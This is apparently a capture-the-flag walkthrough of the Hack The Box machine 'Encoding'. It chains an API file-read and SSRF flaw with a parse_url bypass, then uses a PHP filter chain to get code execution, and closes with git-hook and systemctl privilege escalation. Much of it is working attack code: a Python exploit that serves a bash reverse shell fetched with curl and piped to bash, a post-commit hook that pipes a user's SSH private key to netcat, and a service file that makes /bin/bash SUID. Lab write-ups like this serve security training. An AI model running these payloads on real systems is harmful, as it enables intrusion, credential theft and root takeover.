

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.198 haxtables.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: HaxTables
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* web server is running a data manipulation tool like "cyberchef".


* 2 features are available "string", "integer" in "Convertions" and 1 "image" is showing "coming soon".



* Using web UI "string Convertions" or "integer Convertions" tool send post request to `/handler.php`.



* And there is an API running on vHost - `api.haxtables.htb`

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-10.10.11.198-index.phppage-api.png">
    
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-10.10.11.198-index.phppage-api.png"><i>Click for full image</i></a></div>
</div>

<!--  -->

* Fuff found another vHost -

```bash
❯ ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.haxtables.htb" -u "http://10.10.11.198" -ac -ic -t 100

... [snip] ...

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 423ms]
    * FUZZ: api

[Status: 403, Size: 284, Words: 20, Lines: 10, Duration: 413ms]
    * FUZZ: image
```

* `image.haxtables.htb` in returning "403 Forbidden".
* `api.haxtables.htb` using version 3 API that means there are also version 1 and 2.

```json
// v1
❯ curl -X POST \
    --data-binary '{"action":"urldecode","data":"test"}' \
    'http://api.haxtables.htb/v1/tools/string/index.php'
{"data":"test"}

// v2
❯ curl -X POST \
    -d $'{"action":"urldecode","data":"test"}' \
    'http://api.haxtables.htb/v2/tools/string/index.php'
{"message":"This resource is under construction and unavailable for public access due to security issues.!"}

// v3
❯ curl -X POST \
    --data-binary '{"action":"urldecode","data":"test"}' \
    'http://api.haxtables.htb/v3/tools/string/index.php'
{"data":"test"}
```

But we can access to API v2 from web UI POST request 

```json
❯ curl -X POST \
    -d '{"action":"urldecode","data":"test","uri_path":"/v2/tools/string"}' \
    'http://10.10.11.198/handler.php'
{"data":"test"}
```

# Foothold

## LFI

In API docs, There is a parameter in v3 API `file_url` which is vulnerable for SSRF



Also vulnerable for LFI file read using `file://` protocol



Quick script for api LFI bug.
```py
import requests as r
from sys import argv
import json

host = "http://api.haxtables.htb"
uri = "/v3/tools/string/index.php"

data = {"action":"urldecode","file_url":f"file://{argv[1]}"}
resp = r.post(f"{host}{uri}", json=data)
print(json.loads(resp.text)['data'])
```

Known file structure of web app - 

```
/var/www/
	  |
	  |--> html/
	  |--> api/
```

From apache2 site config `/etc/apache2/sites-available/000-default.conf` file, got more detail about image vHost.
```conf
... [snip] ...

<VirtualHost *:80>
        ServerName image.haxtables.htb
        ServerAdmin webmaster@localhost
        
	DocumentRoot /var/www/image

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
	#SecRuleEngine On

	<LocationMatch />
  		SecAction initcol:ip=%{REMOTE_ADDR},pass,nolog,id:'200001'
  		SecAction "phase:5,deprecatevar:ip.somepathcounter=1/1,pass,nolog,id:'200002'"
  		SecRule IP:SOMEPATHCOUNTER "@gt 5" "phase:2,pause:300,deny,status:509,setenv:RATELIMITED,skip:1,nolog,id:'200003'"
  		SecAction "phase:2,pass,setvar:ip.somepathcounter=+1,nolog,id:'200004'"
  		Header always set Retry-After "10" env=RATELIMITED
	</LocationMatch>

	ErrorDocument 429 "Rate Limit Exceeded"

        <Directory /var/www/image>
                Deny from all
                Allow from 127.0.0.1
                Options Indexes FollowSymLinks
                AllowOverride All
                Require all granted
        </DIrectory>

</VirtualHost>
```

Got the image vHost root directory location - `/var/www/image`
```php
❯ python fileRead.py "/var/www/image/index.php"
<?php 
include_once 'utils.php';
include 'includes/coming_soon.html';
?>
```

Checking `utils.php` file, indicates that there is `.git` directory in `image/`.

```bash
❯ python fileRead.py "/var/www/image/.git/config"
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
```

There are few tool, but none can help as the git directory is not directly accessible from URL.

We can modify [GitTools](https://github.com/internetwache/GitTools) "gitdumper.sh" script to extract ".git" directory using POST request.

Replace [curl command in gitdumper.sh script (line 114)](https://github.com/internetwache/GitTools/blob/7cac63a2c141cdf2ab0f854e790ace3f430304f4/Dumper/gitdumper.sh#L114) with following command and run script normally

```bash
    curl -s -X POST \
        -d "{\"action\":\"b64encode\",\"file_url\":\"$url\"}" \
        'http://api.haxtables.htb/v3/tools/string/index.php' | jq -r .data | base64 -d > "$target"
```

```bash
# Dump .git
bash gitdumper.sh file:///var/www/image/.git/ /tmp

# Extract all commits
bash extractor.sh /tmp /tmp
```



In the git repository, there is a file `actions/action_handler.php` which is inserting user input from GET param `page` directly into `include()` function. 
```bash
<?php

include_once 'utils.php';

if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page);

} else {
    echo jsonify(['message' => 'No page specified!']);
}

?>
```

but we can not access `image.haxtables.htb` directly.

## SSRF 

We got the SSRF in same param `file_url`, in the first hand this SSRF is wried because if we use `http://127.0.0.1` it return "Unacceptable URL" message and if we only use `127.0.0.1` it works.

And the problem lies in this code `/var/www/api/utils.php`, where it is handling user input.
```php
... [snip] ....

function get_url_content($url){
    $domain = parse_url($url, PHP_URL_HOST);
    if (gethostbyname($domain) === "127.0.0.1") {
	jsonify(["message" => "Unacceptable URL"]);
    }

    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,2);
    curl_setopt ($ch, CURLOPT_FOLLOWLOCATION, 0);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
    $url_content =  curl_exec($ch);
    curl_close($ch);
    return $url_content;
}

... [snip] ....
```

It is using `parse_url()` with `PHP_URL_HOST` which only return hostname of given URL and if URL does not contain any protocol schema it does not bother parsing it.
```bash
❯ php -r 'var_dump(parse_url("http://example.com", PHP_URL_HOST));'
string(11) "example.com"
❯ php -r 'var_dump(parse_url("example.com", PHP_URL_HOST));'
NULL
```

and that how we can bypass domain check and access local host and also vHost.



## PHP filter chain

Now we can access `/actions/action_handler.php?page=` and here we can use "[PHP filter chain](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" (https://github.com/synacktiv/php_filter_chain_generator) to get RCE because `page` param value directly inserted into `include()` function in `actions/action_handler.php`.
```bash
python3 php_filter_chain_generator.py --chain '<?= `curl http://10.10.14.59:8000/rev.sh|bash` ;?>'
```




Exploit script
```py
#!/usr/bin/env python3

"""
Author: poorduck
Usage: python3 script.py
"""

import requests as r
import os
import netifaces as ni
import threading
import http.server
import socketserver

# Get hackthebox vpn ip from tun0 interface
try:
    tun0_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

# function for creating php filter chain using synacktiv "php_filter_chain_generator.py" script from github
def gen_php_chain(ip):
    command = f'curl -s https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/main/php_filter_chain_generator.py | python - --chain \'<?= `curl http://{ip}:8000/rev.sh|bash` ;?>\''
    output_file = os.popen(command)
    output = output_file.read()
    output_file.close()
    php_chain = output.split('\n')[1]
    return php_chain

# function for hosting reverse shell
def start_http_server(port, ip):
    with open('rev.sh', 'w') as f:
        f.write(f'/bin/bash -i >& /dev/tcp/{ip}/4141 0>&1')

    try:
        Handler = http.server.SimpleHTTPRequestHandler
        httpd = socketserver.TCPServer(("", port), Handler)

        # print("Serving at port", port)
        httpd.serve_forever()
    except OSError as e:
        print(e)


try:
    # Start http server on child thread
    port = 8000
    http_thread = threading.Thread(target=start_http_server, args=(port,tun0_ip))
    http_thread.daemon = True
    http_thread.start()
    
    # Generate php chain
    rce_chain = gen_php_chain(tun0_ip)

    url = "http://api.haxtables.htb/v3/tools/string/index.php"
    ssrf_uri = f"image.haxtables.htb/actions/action_handler.php?page={rce_chain}"
    data = {"action":"urldecode","file_url":f"{ssrf_uri}"}

    resp = r.post(url, json=data)
    print(resp.text)
    
    if os.path.isfile("rev.sh"): os.remove("rev.sh")
except KeyboardInterrupt as e:
    if os.path.isfile("rev.sh"): os.remove("rev.sh")
    print(e)
except Exception as e:
    if os.path.isfile("rev.sh"): os.remove("rev.sh")
    print(e)

```




## Lateral Movement

### Git hooks

Got shell as "www-data" user and that user can run `/var/www/image/scripts/git-commit.sh` script as user "svc" with sudo
```bash
www-data@encoding:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on encoding:
    (svc) NOPASSWD: /var/www/image/scripts/git-commit.sh
```

This script is performs two operations depending on whether there are any uncommitted changes in the Git repository located at `/var/www/image/.git`
```bash
#!/bin/bash

u=$(/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image ls-files  -o --exclude-standard)

if [[ $u ]]; then
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image add -A
else
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image commit -m "Commited from API!" --author="james <james@haxtables.htb>"  --no-verify
fi
```

This bash script checks if there are any uncommitted changes in the `/var/www/image` directory.

* It first uses the `git ls-files` command to get a list of untracked files in the `/var/www/image` directory, excluding any files that are specified in `.gitignore`. The output of this command is stored in the variable `$u`.
* Next, it Checks if the variable `$u` has a value. If it does, it means there are untracked files in the working directory, and the script performs a `git add -A` command to stage all the changes in the repository for the next commit.
* If the variable `$u` is empty, it means there are no untracked files in the working directory, and the script performs a `git commit` command to create a new commit. The `--no-verify` option skips any pre-commit hooks that may be configured for the repository.

And `/var/www/image/.git` has Access Control List (ACL) extended attributes.
```bash
www-data@encoding:~/image$ getfacl .git
getfacl .git
# file: .git
# owner: svc
# group: svc
user::rwx
user:www-data:rwx
group::r-x
mask::rwx
other::r-x
```

* We have write access in the `.git` directory.
* There is a trick in [gitfobins](https://gtfobins.github.io/gtfobins/git/) to run system command  using git hooks. but we can not use "pre-commit" hooks.
* But we can also use "post-commit" hooks to execute command.

```bash
cd /var/www/image
echo 'cat /home/svc/.ssh/id_rsa|nc 10.10.14.29 4141' >"/var/www/image/.git/hooks/post-commit"
chmod +x /var/www/image/.git/hooks/post-commit
sudo -u svc /var/www/image/scripts/git-commit.sh
```

But it is not working because there is no changes in the `/var/www/image` directory.



We need to make some changes in the repo to trigger commit but we can not add any file from outside the git working directory which set in the config file.
* the `directory` option in the `[safe]` section of the Git configuration file is used to prevent adding files from outside the repository directory.
```bash
www-data@encoding:~/image$ cat ../.gitconfig
cat ../.gitconfig
[safe]
        directory = /var/www/image
```

But can write into `.git` directory, and use `--work-tree` flag and specify outside directory.
* The `--work-tree` option is meant to allow running Git commands from a different directory than the repository's working directory.

This command adds the file `/etc/hostname` to the Git index for the current Git repository we are in.

```bash
git --work-tree /etc/ add /etc/hostname
```




```bash
cd /var/www/image
echo 'cat /home/svc/.ssh/id_rsa|nc 10.10.14.29 4141' >"/var/www/image/.git/hooks/post-commit"
chmod +x /var/www/image/.git/hooks/post-commit
git --work-tree /etc/ add /etc/hostname
sudo -u svc /var/www/image/scripts/git-commit.sh
```



# Privesc

## systemctl with sudo

Obtained shell as user "svc" and user can run `/usr/bin/systemctl` "restart" on any service.
```bash
svc@encoding:~$ sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
```

* In Linux, service files are typically located in the `/etc/systemd/system/` directory or in subdirectories of this directory.

and user "svc" has extended ACL permission of write and execute on `/etc/systemd/system/` directory.
```bash
svc@encoding:~$ getfacl /etc/systemd/system/
getfacl: Removing leading '/' from absolute path names
# file: etc/systemd/system/
# owner: root
# group: root
user::rwx
user:svc:-wx
group::rwx
mask::rwx
other::r-x
```

So we can create a `.service` file and run it with `/usr/bin/systemctl` using sudo -> https://gtfobins.github.io/gtfobins/systemctl/
```conf
[Unit]
Description=My System Service
After=network.target

[Service]
Type=simple
ExecStart=chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
```

```bash
sudo /usr/bin/systemctl restart privesc
```

<!--Copy/Paste

cat > /etc/systemd/system/privesc.service <<EOF
[Unit]
Description=My System Service
After=network.target

[Service]
Type=simple
ExecStart=chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
EOF

-->


